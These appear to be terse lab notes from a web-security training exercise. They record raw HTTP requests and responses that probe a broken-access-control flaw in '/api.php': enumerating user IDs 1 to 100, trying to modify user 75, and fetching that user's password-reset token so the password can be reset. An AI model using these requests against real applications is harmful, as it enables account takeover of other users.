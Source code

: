 HTTP/1.1 200 OK
Date: Sun, 07 Jan 2024 21:19:41 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 102
Connection: close
Content-Type: text/html; charset=UTF-8

{"uid":"75","username":"h.ray","full_name":"Harrison Ray","company":"Satterfield, Schultz and Kemmer"}

--> OK from 1 to 100

PUT /api.php/user/75 HTTP/1.1
POST /api.php/user/75 HTTP/1.1
DELETE /api.php/user/75 HTTP/1.1

--> OK but no data returned

POST /reset.php HTTP/1.1
Host: 94.237.62.195:53851
Content-Length: 75
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://94.237.62.195:53851
Referer: http://94.237.62.195:53851/settings.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=jtagso9qrfk4hj4uh39i0o2qpj; uid=75
Connection: close

uid=75&token=e51a8a14-17ac-11ec-8e67-a3c050fe0c26&password=Academy_student!

--> Access Denied

GET /api.php/token/75 HTTP/1.1
Host: 94.237.62.195:53851
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: */*
Referer: http://94.237.62.195:53851/settings.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=jtagso9qrfk4hj4uh39i0o2qpj; uid=75
Connection: close

--> OK

HTTP/1.1 200 OK
Date: Sun, 07 Jan 2024 21:36:34 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 48
Connection: close
Content-Type: text/html; charset=UTF-8
